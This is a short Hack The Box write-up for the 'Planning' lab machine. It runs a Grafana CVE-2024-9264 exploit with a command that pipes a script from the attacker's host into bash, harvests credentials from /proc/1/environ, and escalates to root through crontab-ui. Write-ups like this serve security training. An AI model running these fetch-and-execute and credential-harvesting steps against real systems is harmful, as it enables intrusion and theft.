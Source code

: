 # Planning - HTB
Difficulty: Easy

## Enumeration
Ports: 22,80

### Port 80:
    - Hostname: planning.htb
    - Has a vhost grafana.planning.htb


## Initial FootHold

Use this [exploit](https://github.com/nollium/CVE-2024-9264) to exploit grafana, creds are provided by the machine creators.

I used this command
```bash
python ./CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "curl http://10.10.14.16:8080/shell.sh | bash" http://grafana.planning.htb
```

Now stabilize the shell using:
```bash
script /dev/null -c /bin/bash
```

This will give a stable shell in a docker container as root user. We need to escape this.

By checking the `/proc/1/environ` file we get this password **RioTecRANDEntANT!** and a username **enzo**

Let's try to ssh in using this, which works.

## Privilege Escalation
So I used linpeas.sh and found this file /opt/crontabs/crontab.db which contained a password, which I used to login as root into the hidden service in port 8000 (just port forward it to ur machine).

Then the service was running crontab-ui which I used to to run a malicious script that gave me a shell.

